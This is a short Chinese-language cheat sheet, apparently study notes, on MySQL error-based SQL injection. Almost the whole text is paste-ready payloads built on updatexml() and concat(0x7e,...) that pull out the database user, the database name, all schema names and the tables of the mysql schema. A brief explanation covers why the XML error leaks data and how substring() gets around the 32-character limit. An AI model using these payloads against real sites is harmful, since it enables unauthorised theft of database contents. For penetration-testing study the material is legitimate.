

# 显错注入
'and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+                                                                                                     #查看当前数据库用户
'and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+                                                                                              #查看当前数据库名
'and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1)--+                    #查看当前数据库
'and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 1,1),0x7e),1)--+                    #查看当前数据库
'and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e),1)--+                    #查看当前数据库
'and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1)--+         #查看所有数据库
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='mysql'),0x7e),1)--+
可以看出，以~开头的内容不是xml格式的语法，报错，但是会显示无法识别的内容是什么，这样就达到了目的。
有一点需要注意，updatexml()能查询字符串的最大长度为32，就是说如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位
这里查询前5位示意:
'and updatexml(1,concat(0x7e,substring(hex((select database())),1,5),0x7e),1)
'and updatexml(1,concat(0x7e,substring(hex((select group_concat(schema_name) from information_schema.schemata)),1,5),0x7e),1)--+